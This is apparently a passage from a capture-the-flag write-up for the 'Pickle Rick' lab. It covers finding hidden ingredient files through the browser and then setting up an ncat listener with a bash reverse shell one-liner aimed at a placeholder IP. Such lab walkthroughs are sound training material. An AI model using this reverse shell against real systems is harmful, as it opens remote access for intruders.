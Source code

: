 Locate the first ingredients via the browser:
```text
/Sup3rS3cretPickl3Ingred.txt
```
![Command Panel Screenshot](/assets/img/pickle-rick/clue1.png)

The clue.txt file looks intressting.

Look around the file system for the other ingredient. 
Lets see if we can browser it like we did with Sup3rS3cretPickl3Ingred.txt:
```text
/clue.txt
```
![Command Panel Screenshot](/assets/img/pickle-rick/clue-file.png)

Time to set up a listener and try to get a reverse shell

---

# ⚙️ Getting a Reverse Shell

## Step 1: Setup a Listener (Windows)
```powershell
ncat.exe -lvnp 4444
```

## Step 2: Execute Payload
Try Bash reverse shell:

```bash
bash -i >& /dev/tcp/YOUR-IP/4444 0>&1
```
